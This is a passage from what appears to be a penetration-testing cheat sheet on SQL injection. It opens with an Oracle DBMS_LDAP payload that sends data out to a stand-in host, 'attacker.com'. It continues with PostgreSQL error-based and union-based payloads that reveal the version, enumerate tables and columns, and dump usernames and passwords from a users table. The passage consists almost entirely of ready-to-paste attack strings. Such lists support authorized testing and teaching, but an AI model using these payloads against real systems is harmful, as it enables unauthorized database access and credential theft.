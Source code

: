 - **HTTP Exfiltration Using DBMS_LDAP:** Uses the Oracle DBMS_LDAP package to initiate a connection to an LDAP server controlled by the attacker, leaking data.

```
' AND (SELECT DBMS_LDAP.init('attacker.com', 389) FROM dual) IS NOT NULL -- -
```

## [[P5432 5433 PostgreSQL]]

### Error-Based SQLi

- **Substring Error:** Triggers an error by exceeding the allowable substring length.

```
' AND 1=(SELECT SUBSTRING(version(), 1, 1000)) -- -
```

- **Invalid Cast:** Generates a cast error by converting a user name to an integer.

```
' AND 1=CAST((SELECT current_user) AS int) -- -
```

- **Division by Zero:** Forces a division by zero error.

```
' AND 1/(SELECT COUNT(*) FROM pg_catalog.pg_tables)=0 -- -
```

### Union-Based SQLi

- **Database Version:** Appends the PostgreSQL version to the result set.

```
' UNION SELECT NULL, version() -- -
```

- **Database Name:** Extracts the name of the current database.

```
' UNION SELECT NULL, current_database() -- -
```

- **Table Name Enumeration:** Lists the names of all tables in the `public` schema.

```
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public' LIMIT 1 OFFSET 0 -- -
```

- **Column Name Enumeration:** Retrieves the column names from a specified table.

```
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0 -- -
```

- **User Data Extraction:** Extracts usernames and passwords from the `users` table.

```
' UNION SELECT NULL, username, password FROM users -- -
```
